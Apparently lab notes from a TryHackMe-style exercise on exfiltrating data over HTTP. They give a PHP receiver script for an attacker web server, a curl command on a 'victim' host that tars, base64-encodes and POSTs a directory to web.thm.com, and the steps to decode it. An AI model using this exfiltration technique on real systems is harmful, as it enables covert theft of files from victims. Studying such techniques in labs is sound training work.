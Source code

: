 # HTTP data exfiltration

To exfiltrate data over the HTTP protocol:

* An attacker sets up a web server with a data handler (`web.thm.com` and a `contact.php` page as a data handler).
* A C2 agent or an attacker sends the data (using the `curl` command).
* The webserver receives the data and stores it (`contact.php` receives the POST request and stores it into `/tmp`).
* The attacker logs into the webserver to have a copy of the received data.

The `contact.php` in `/var/www/html` on `web.thm.com` to handle POST requests via a file parameter and storing the received data in the `/tmp` directory as 
`http.bs64` file name:

```text
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

From the jumphost `ssh` into the `victim1.thm.com` machine with the given credentials:

    thm@jump-box:~$ ssh thm@victim1.thm.com

Check the data:

    thm@victim1:~$ ls -l

Send POST data via curl:

    thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php

From the victim1 or jump machine, log in to the webserver, `web.thm.com`, and check the `/tmp` directory:

    thm@victim1:~$ ssh thm@web.thm.com 
    thm@web:~$ ls -l /tmp/

Fix the broken `http.bs64` file (broken due to the URL encoding over HTTP). Using the sed command, replace the spaces 
with `+` characters to make it a valid `base64` string:

    thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64

Restore the data:

    thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -

## HTTPS communications

One of the benefits of HTTPS is encrypting the transmitted data using SSL keys stored on a server. 
Apply the same technique as used for HTTP on a web server with SSL enabled, all transmitted data will be encrypted.  
